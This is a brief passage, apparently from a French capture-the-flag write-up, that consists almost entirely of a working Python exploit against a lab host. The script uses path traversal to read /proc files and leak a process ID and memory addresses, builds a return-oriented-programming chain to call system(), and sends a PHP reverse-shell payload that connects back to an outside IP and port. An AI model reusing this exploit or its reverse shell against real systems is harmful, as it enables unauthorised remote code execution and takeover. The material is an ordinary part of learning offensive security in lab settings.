 Vu comme ça c'est assez rapide mais j'y est passé énormément de temps

```py
import struct
import requests

def get_pid():
	pid_max = int(requests.get("http://10.10.11.154/index.php?page=js/..../.././/..../.././/..../.././/..../.././/..../.././/proc/sys/kernel/pid_max").text)
	print(f"[+] pid max is {pid_max}")
	for pid in range(0, pid_max):
		r = requests.get(f"http://10.10.11.154/index.php?page=js/..../.././/..../.././/..../.././/..../.././/..../.././/proc/{pid}/cmdline")
		if r.text.encode() == b'/usr/bin/activate_license\x001337\x00':
			print(f"[+] pid found : {pid}")
			return pid

def get_base_address(pid):
	base = requests.get(f"http://10.10.11.154/index.php?page=js/..../.././/..../.././/..../.././/..../.././/..../.././/proc/{pid}/maps").text.split("-")[0]
	print(f"[+] base found : 0x{base}")
	return int(base, base=16)

def get_libc_base(pid):
	base = requests.get(f"http://10.10.11.154/index.php?page=js/..../.././/..../.././/..../.././/..../.././/..../.././/proc/{pid}/maps").text.split("\n")[23][:12]
	print(f"[+] libc found : 0x{base}")
	return int(base, base=16)

pid = get_pid()
base_address = get_base_address(pid)
libc_base    = get_libc_base(pid)


payload = b"php -r '$sock=fsockopen(\"10.10.14.59\",4000);exec(\"sh <&3 >&3 2>&3\");'"
n = 8
command = [payload[i:i+n] for i in range(0, len(payload), n)]
command[-1] = command[-1] + b"\x00" * (8 - len(command[-1]))

print("[~] building payload ...")
payload = b"a" * (512 + 8)                                      # padding : buffer[512] + 8

for i in range(len(command)):
	payload += struct.pack("<Q", base_address + 0x000000000000181b)   # pop rdi ; ret
	payload += command[i]                                             # payload
	payload += struct.pack("<Q", base_address + 0x0000000000001819)   # pop rsi; pop r15; ret;
	payload += struct.pack("<Q", base_address + 0x00004000 + (8 * i)) # address of .data
	payload += struct.pack("<Q", 0x0)                                 # NULL
	payload += struct.pack("<Q", libc_base + 0x0000000000118b7d)      # mov qword ptr [rsi], rdi ; ret


payload += struct.pack("<Q", base_address + 0x000000000000181b) # pop rdi ; ret
payload += struct.pack("<Q", base_address + 0x00004000)         # address of .data = payload

payload += struct.pack("<Q", libc_base + 0x48e50)               # address of system in the libc
payload += struct.pack("<Q", 0x00000000)
print("[+] payload built ! ")

print("[~] sending payload")
r = requests.post("http://10.10.11.154/activate_license.php", files={'licensefile' : ('payload', payload)} )
print("[+] paylaod sent !")
```
